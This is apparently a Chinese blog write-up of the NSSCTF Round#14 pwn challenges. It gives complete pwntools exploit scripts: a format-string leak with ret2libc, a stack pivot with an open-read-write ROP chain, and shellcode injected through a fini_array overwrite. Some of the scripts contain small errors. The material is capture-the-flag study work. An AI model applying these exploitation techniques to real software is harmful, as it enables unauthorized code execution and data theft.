


# NSSCTFRound#14

本次NSSCTFRound赛有点事情没有写，后续回来复现，估计当时也只能写出来两道题，还是太菜了，又在两位师傅的帮助提示下完成了四道题的复现，希望自己以后可以多多努力

## love

很简单的一道题格式化字符串，赛后群里面幽林师傅说本意是打STL结构体，但是这里被非预期了，直接泄露了canary然后ret2text就可以了

```python
from pwn import*
#p=process('./love')
p=remote('node3.anna.nssctf.cn',28435)
libc=ELF('./libc.so.6')
p.recvuntil('Toka\n')
pause()
p.sendline(b'%520c%9$n%17$p%15$p')
context.log_level='debug'
p.recvuntil('0x')
libc_base=int(p.recv(12),16)-libc.symbols['__libc_start_main']-243
print(hex(libc_base))
p.recvuntil('0x')
canary=int(p.recv(16),16)
print(hex(canary))
system=libc_base+libc.symbols['system']
binsh=libc_base+libc.search(b'/bin/sh\x00').__next__()

pop_rdi=0x00000000004013f3
ret=0x000000000040101a
payload=b'a'*(0x30-0x8)+p64(canary)*2+p64(ret)+p64(pop_rdi)+p64(binsh)+p64(system)+p64(ret)

p.recvuntil(b'level')
p.sendline(payload)
p.interactive()
```

## rbp

这里给了一个0x10的溢出，可以利用它来进行栈迁移，同时程序开了沙箱，我们利用orw的ropchain就可以getshell

首先我们布栈为下面的样子

| stack   | content               |
| ------- | --------------------- |
| rsp     | 'a'*0x210             |
| rbp     | rbp->0x404500         |
| retaddr | 0x401292（read_func） |

这样子在退出的时候，程序会执行leave；ret

```shell
mov %rbp,%rsp
pop %rbp
ret
```

也没有正经写过栈迁移的博客，就在这里一步步分析了

首先把rbp的值给rsp，然后把栈顶给rbp，这样进行之后，我们的fake_stack就是下面的样子

| fake_stack   | content  |
| ------------ | -------- |
| 0x7fxxxxxxxx | xxxxxx   |
| 0x7fxxxxxxxx | xxxxxx   |
| rbp          | 0x404500 |

read函数刚开始会执行 *lea    rax, [rbp+buf]* 在本题中就是rbp-0x210,也就是read的地址是0x4042f0。我们gdb进去看一下对不对



这是执行leave之前，可以看到rbp确实是我们布置的样子，接下来进行leave


这里把rbp的值给了rsp之后，pop了rbp，所以rsp+8，到了retaddr的地方，符合我们的预期，接下来就是ret去执行read函数


可以看到，read的buf地址确实是我们刚才计算的0x4042f0，然后读入我们的payload

| fake_stack | content               |
| ---------- | --------------------- |
| 0x4042f0   | pop_rdi               |
| 0x4042f8   | read_got              |
| 0x404300   | puts_plt              |
| 0x404308   | 0x4012ee(pop rbp;ret) |
| 0x4042310  | 0x404500(old rbp)     |
| 0x404318   | 0x401292(read)        |
| 0x404250   | 0x4042e8              |
| 0x404258   | leave;ret             |

之后程序同样会进行一次leave；ret


这下会把rsp调到0x404508，rbp改为0x4042e8，然后ret，此时会pop rip，所以rsp++，rsp为0x404510，会再进行一次leave；ret，我们继续看



继续执行leave；ret

rsp调到0x4042f0，接下来要pop rip，然后程序就去执行pop rdi；ret了

这样子我们可以获得libc的地址，然后进行pop_rbp,给rbp一个值，也就是oldrbp，之后再次进行read，写orw就好了，后续步骤和上面的是一样的

```python
from pwn import *

debug=0
if debug==1：
	context.log_level='debug'

p = process('./rbp')
elf = ELF('./rbp')
libc = ELF('./libc.so.6')

bss=0x404500
vuln_addr = 0x401270
leave_ret = 0x4012BF
read=0x401292
read_addr=bss-0x210
pop_rdi = 0x401353

p.recvuntil(b'it')
payload = b'a'*0x210 + p64(0x404500) + p64(read)
#pause()
p.send(payload)

payload = p64(pop_rdi) + p64(elf.got['read']) + p64(elf.plt['puts']) + p64(0x4012EE) + p64(bss) + p64(0x401292)
payload = payload.ljust(0x210) + p64(read_addr-0x8) + p64(leave_ret)
#pause()
p.send(payload)

libc_base = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\00')) - libc.symbols['read']
print(hex(base_addr))
open_addr = libc_base + libc.symbols['open']
read_addr = libc_base + libc.symbols['read']
write_addr = libc_base + libc.symbols['write']
syscall_addr = libc_base + 0x00000000000630a9
pop_rax = libc_base + 0x0000000000036174
pop_rsi = libc_base + 0x000000000002601f
pop_rdx = libc_base + 0x0000000000142c92

orw = b'./flag\00\00'
orw += p64(pop_rsi) + p64(0) + p64(pop_rdx) + p64(0) + p64(pop_rax) + p64(2) + p64(pop_rdi) + p64(0x4042f0) + p64(pop_rsi) + p64(0) + p64(syscall_addr)
orw += p64(pop_rdi) + p64(3) + p64(pop_rsi) + p64(0x404600) + p64(pop_rdx) + p64(0x100) + p64(read_addr)
orw += p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(0x404600) + p64(pop_rdx) + p64(0x100) + p64(write_addr)

payload = orw.ljust(0x210) + p64(read_addr) + p64(leave_ret)
#pause()
p.sendline(payload)


p.interactive()

```

## xor

这里参考了一些stone爷的exp，手动艾特stone-san ~~自己写脚本的功底实在是太烂了，有空要好好学一下python了~~

这道题相当于给了一个任意地址写，常规的方法是先改flag为负数，然后写一个shellcode就可以了，最后利用fini_array进行调用

```python
from pwn import*
p=process('./xor')
elf=ELF('./xor')
def write(addr,val):
	p.recvuntil('addr: ')
	p.sendline(str(hex(addr)).encode())
	p.recvuntil('value: ')
	p.sendline(str(hex(val)).encode())

flag_addr=0x600bcf
#context.log_level='debug'

shell_addr=0x600bd0
write(flag_addr,0xff)#
shellcode=b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
for i,k in enumerate(shellcode):
	write(shell_addr+i,k)

printf_got=elf.got['printf']
printf_plt=elf.plt['printf']
print(hex(printf_got))
print(hex(printf_plt))
fini_entry=0x400610
fini=0x600970
shell=p32(shell_addr^fini_entry)
for i,k in enumerate(shell):
	if k!=0:
		write(fini+i,k)
write(flag_addr,0xff)
p.interactive()
```


### Not solve：

记得在pwnable上3x17这道题xuanxuan的博客中好像说的是静态链接会调用fini，这道题不知道为什么，有大师傅说是ida里面看不出来自己去si一步步看看到exit中call了fini，后续要多研究一下

## readfile

感谢T1d师傅分享的方法

[T1d](https://he.tld1027.com/2023/07/30/nssctf-round14-pwn%e4%b8%93%e9%a1%b9-wp/)

我觉得属于是逻辑漏洞，很好的一道题